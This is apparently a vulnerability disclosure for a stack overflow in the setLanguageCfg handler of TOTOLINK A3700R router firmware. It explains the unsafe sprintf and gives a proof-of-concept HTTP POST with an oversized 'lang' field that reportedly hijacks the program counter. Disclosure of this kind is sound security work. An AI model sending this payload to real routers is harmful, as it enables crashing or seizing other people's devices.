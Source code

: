 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104160112593](image/image-20240104160112593.png)

## Vulnerability details

setLanguageCfg

![image-20240104160229638](image/image-20240104160229638.png)

`V7` is a variable on the stack, while `Var` is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 74
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setLanguageCfg",

"lang":"a"*0x1000,

"langAutoFlag":"2"

}
```

The above figure shows the POC attack effect

![image-20240104160327580](image/image-20240104160327580.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104160352169](image/image-20240104160352169.png)